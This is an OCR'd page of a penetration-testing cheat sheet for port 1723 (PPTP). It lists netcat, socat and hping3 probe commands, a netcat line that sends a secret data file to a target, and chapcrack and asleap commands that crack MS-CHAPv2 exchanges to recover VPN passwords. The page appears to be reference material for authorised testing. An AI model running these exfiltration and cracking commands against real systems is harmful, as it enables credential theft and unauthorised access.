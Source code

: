 #### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 1723
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 1723> -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 1723
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 1723 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:1723
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 1723
    ```

#### \[\[Chapcrack]]

*   **Crack MS-CHAPv2 Challenge-Response Pair:** Exploits the vulnerabilities in MS-CHAPv2 to recover plaintext passwords.

    ```bash
    chapcrack --crack --challenge=CHALLENGE --response=RESPONSE
    ```

#### \[\[Asleap]]

*   **Crack MS-CHAPv2 Challenge-Response Pair:** Brute-forces MS-CHAPv2 challenge-response pairs to recover VPN credentials.

    ```bash
    asleap -C CHALLENGE -R RESPONSE -W wordlist.txt
    ```
